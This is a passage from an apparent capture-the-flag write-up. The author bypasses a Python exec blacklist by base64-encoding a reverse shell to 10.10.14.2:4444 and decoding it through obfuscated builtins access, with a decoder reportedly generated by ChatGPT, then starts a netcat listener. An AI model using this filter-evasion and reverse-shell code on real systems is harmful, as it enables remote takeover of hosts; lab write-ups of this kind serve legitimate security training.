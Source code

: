 Ruh-roh, looks like I can call exec on python code as a string! Now all we have to do is create python code that doesn't directly have blacklisted terms. This can be easily accomplished by base64 encoding some python code, then passing the decoded string to exec.

Let's encode a python reverse shell into base64

```bash
┌──(kali㉿kali)-[~]
└─$ echo -n 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")' | base64 -w 0
aW1wb3J0IHNvY2tldCxvcyxwdHk7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTAuMTAuMTQuMiIsNDQ0NCkpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3B0eS5zcGF3bigiL2Jpbi9zaCIp
```

And have ChatGPT generate some base64 decoding code and we have:

```python
ex = globals()["__buil"+"tins__"]["exe"+"c"]

# Base64 decoding table
# Function to decode base64 without
def base64_decode(encoded_str):
    base64_chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"
    padding = "="

    # Create a dictionary for base64 characters
    base64_map = {base64_chars[i]: i for i in range(64)}
    
    # Remove padding
    encoded_str = encoded_str.rstrip(padding)
    
    # Convert the encoded string to binary
    binary_str = ""
    for char in encoded_str:
        binary_str += format(base64_map[char], '06b')
    
    # Group the binary string into 8-bit chunks (bytes)
    byte_chunks = [binary_str[i:i+8] for i in range(0, len(binary_str), 8)]
    
    # Convert binary chunks to characters
    decoded_bytes = []
    for chunk in byte_chunks:
        decoded_bytes.append(chr(int(chunk, 2)))
    
    # Join the decoded characters to form the final decoded string
    return ''.join(decoded_bytes).replace("\x00","")

encoded_str = 'aW1wb3J0IHNvY2tldCxvcyxwdHk7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTAuMTAuMTQuMiIsNDQ0NCkpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3B0eS5zcGF3bigiL2Jpbi9zaCIp'

decoded_str = base64_decode(encoded_str)

print(decoded_str)
ex(decoded_str)
```
Phew! Finally, we can start a Netcat listener and pop the shell!
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444        
listening on [any] 4444 ...
```